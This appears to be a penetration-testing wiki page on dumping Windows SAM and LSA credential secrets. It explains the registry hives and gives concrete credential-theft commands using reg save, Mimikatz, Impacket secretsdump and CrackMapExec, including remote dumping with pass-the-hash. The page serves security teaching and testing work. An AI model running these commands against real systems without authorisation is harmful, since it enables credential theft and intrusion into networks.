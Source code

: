 ```yaml
---
description: 'MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005'
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM \(Security Account Manager\) and SECURITY.

<table>
  <thead>
    <tr>
      <th style="text-align:left">Hive</th>
      <th style="text-align:left">Details</th>
      <th style="text-align:left">Format or credential material</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SAM</td>
      <td style="text-align:left">stores locally cached credentials (referred to as SAM secrets)</td>
      <td
      style="text-align:left">LM or NT hashes</td>
    </tr>
    <tr>
      <td style="text-align:left">SECURITY</td>
      <td style="text-align:left">stores domain cached credentials (referred to as LSA secrets)</td>
      <td
      style="text-align:left">
        <p>Plaintext passwords</p>
        <p>LM or NT hashes</p>
        <p>Kerberos keys (RC4, DES, AES)</p>
        <p>Domain Cached Credentials (DCC1 and DCC2)</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">SYSTEM</td>
      <td style="text-align:left">contains enough info to decrypt SAM secrets and LSA secrets</td>
      <td style="text-align:left">N/A</td>
    </tr>
  </tbody>
</table>

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material | Subsequent attacks |
| :--- | :--- |
| Plaintext passwords | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md) or [silver tickets](../../abusing-kerberos/forged-tickets.md) |
| LM/NT hashes | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md), [overpass-the-hash](../../abusing-kerberos/pass-the-key.md) or [silver tickets](../../abusing-kerberos/forged-tickets.md) |
| Kerberos keys \(RC4\) | [credential cracking](../cracking.md), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md), [overpass-the-hash](../../abusing-kerberos/pass-the-key.md), [pass-the-key](../../abusing-kerberos/pass-the-key.md) or [silver tickets](../../abusing-kerberos/forged-tickets.md) |
| Kerberos keys \(DES, AES\) | [credential cracking](../cracking.md) |
| Domain Cached Credentials \(DCC1 or DCC2\) | [credential cracking](../cracking.md) |

## Practice

### Exfiltration

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM 'C:\Windows\Temp\sam.save'
reg save HKLM\SECURITY 'C:\Windows\Temp\security.save'
reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS \(e.g. when booting the computer on another operating system\). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

{% hint style="info" %}
Hives files can also be exfiltrated from live systems using [Volume Shadow Copy](ntds.dit.md#volume-shadow-copy-vssadmin).
{% endhint %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives \(and `SYSTEM` for the encryption keys\), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}

{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}
{% endtabs %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" caption="" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" caption="" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

